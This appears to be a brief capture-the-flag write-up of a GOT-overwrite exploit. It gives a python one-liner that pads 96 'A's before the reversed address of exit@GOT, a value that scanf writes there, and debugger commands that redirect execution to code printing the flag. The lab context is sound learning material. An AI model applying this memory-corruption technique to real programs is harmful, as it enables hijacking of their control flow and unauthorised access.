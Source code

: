 Possibly using 96 'A's with address of GOT so that scanf can overwrite a number into the address. We find that only exit@GOT is usable as most of the other GOTs contain null bytes.

python -c 'print "A"*96 + "\x08\x04\xa0\x18"[::-1]' > input

echo '134514135' > input2

r <<< $(cat /tmp/111/input /tmp/111/input2)

r <<< $(cat /tmp/111/input /tmp/111/input2)

In the end, we set the address to jump to as the address that happens before the cat /bin/flag is called so as to find out the address.
